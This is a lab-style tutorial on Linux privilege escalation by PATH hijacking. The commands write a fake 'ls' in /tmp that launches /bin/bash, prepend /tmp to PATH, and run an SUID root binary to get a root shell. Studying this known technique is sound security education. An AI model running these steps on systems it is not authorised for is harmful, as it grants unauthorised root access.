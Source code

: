 ## What is PATH?
- PATH is an environmental variable in Linux and Unix-like operating systems which specifies directories that hold executable programs.
- When the user runs any command in the terminal, it searches for executable files with the help of the PATH Variable in response to commands executed by a user.
- It is very simple to view the Path of the relevant user with help of the command **"echo $PATH"**.

## How does this let us escalate privileges?
Let's say we have an SUID binary. Running it, we can see that it’s calling the system shell to do a basic process like list processes with "ps". Unlike in our previous SUID example, in this situation we can't exploit it by supplying an argument for command injection, so what can we do to try and exploit this?

We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

As with any SUID file, it will run this command with the same privileges as the owner of the SUID file! If this is root, using this method we can run whatever commands we like as root!

## Practically - 
1. First locate any file that have SUID bit set.
```python
root@polobox:~# /bin/ls -l
total 44
drwxr-xr-x 2 user5 user5 4096 Jun  4  2019 Desktop
drwxr-xr-x 2 user5 user5 4096 Jun  4  2019 Documents
drwxr-xr-x 2 user5 user5 4096 Jun  4  2019 Downloads
drwxr-xr-x 2 user5 user5 4096 Jun  4  2019 Music
drwxr-xr-x 2 user5 user5 4096 Jun  4  2019 Pictures
drwxr-xr-x 2 user5 user5 4096 Jun  4  2019 Public
-rwsr-xr-x 1 root  root  8392 Jun  4  2019 script
drwxr-xr-x 2 user5 user5 4096 Jun  4  2019 Templates
drwxr-xr-x 2 user5 user5 4096 Jun  4  2019 Videos
```

```python
user5@polobox:~$ ./script 
Desktop  Documents  Downloads  Music  Pictures	Public	script	Templates  Videos
```
It definitely looks like the script is listing our files and directories, so this points us to the command **_ls_**.

Unlike in our previous SUID example, in this situation we can't exploit it by supplying an argument for command injection, so what can we do to try and exploit this?

We can re-write the PATH variable to a location of our choosing! So when the SUID binary calls the system shell to run an executable, it runs one that we've written instead!

2. Now, change directory to `/tmp`.
```python
user5@polobox:~$ cd /tmp
```

3. **Now we’re inside tmp, let’s create an imitation executable. The format for what we want to do is: echo “[whatever command we want to run]” > [name of the executable we’re imitating]. What would the command look like to open a bash shell, writing to a file with the name of the executable we’re imitating**
We need to replace the ls executable with the command to open a bash shell. We do this by echoing the path of the bash shell to a file called ls.
```python
user5@polobox:/tmp$ echo "/bin/bash" > ls
```

4. **Great! Now we’ve made our imitation, we need to make it an executable.**
![[linux_privesc11.png]]

5. **Now, we need to change the PATH variable, so that it points to the directory where we have our imitation “ls” stored! We do this using the command “export PATH=/tmp:$PATH”**
**Note, this will cause you to open a bash prompt every time you use “ls”. If you need to use “ls” before you finish the exploit, use “/bin/ls” where the real “ls” executable is.**

6. **Now, change directory back to user5’s home directory.**
```python
cd /home/user5
```

7. **Now, run the “script” file again, you should be sent into a root bash prompt!**
![[linux_privesc10.webp]]